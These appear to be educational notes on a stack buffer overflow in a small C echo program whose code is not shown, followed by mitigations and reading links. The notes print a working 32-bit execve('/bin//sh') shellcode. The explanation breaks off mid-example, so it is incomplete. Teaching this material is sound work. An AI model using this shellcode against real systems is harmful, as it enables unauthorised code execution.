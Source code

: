 This code is basically just echoing the first argument I pass to it when I run from the command line.
See?

```
$ ./example1 foobar
foobar
$ ./example1
$
```

But what I'm *not* doing is making sure that the value at `argv[1]` is small enough to fit into buf.
Can you guess what happens if we call this program with a string larger than 128 characters?

(hint: it's why I'm here)
Yes, that's right a **STACK OVERFLOW**

When you call run the program the `main` function is called using `call`, which means somewhere there's a return address that `ret` will use when we're done.

Now, when main was called, the stack pointer had some value.
Let's suppose it was 0x0000ff00.


# SHELLCODE

```
BITS 32

; execve(const char *filename, char *const argv [], char *const envp[])
  push BYTE 11      ; push 11 to the stack
  pop eax           ; pop dword of 11 into eax
  push ecx          ; push some nulls for string termination
  push 0x68732f2f   ; push "//sh" to the stack
  push 0x6e69622f   ; push "/bin" to the stack
  mov ebx, esp      ; put the address of "/bin//sh" into ebx, via esp
  push ecx          ; push 32-bit null terminator to stack
  mov edx, esp      ; this is an empty array for envp
  push ebx          ; push string addr to stack above null terminator
  mov ecx, esp      ; this is the argv array with string ptr
  int 0x80          ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])
```

# How Compilers and Operating Systems Keep us Safe

 * ASLR: Address Space Layout Randomization
 * Non executable stack
 * Stack smashing detection: Insert secure value between stack frames and check before calling ret OR Insert 0000000 because you can't have 0s in your shellcode


# Want to learn more?

 * Hacking: The art of Exploitation
 * Smashing the Stack for Fun and Profit: Phrack Magazine #49: http://www.phrack.org/archives/49/P49-14
 * Anatomy of a Stack Smashing Attack and How GCC Prevents It: http://www.drdobbs.com/security/anatomy-of-a-stack-smashing-attack-and-h/240001832?pgno=3

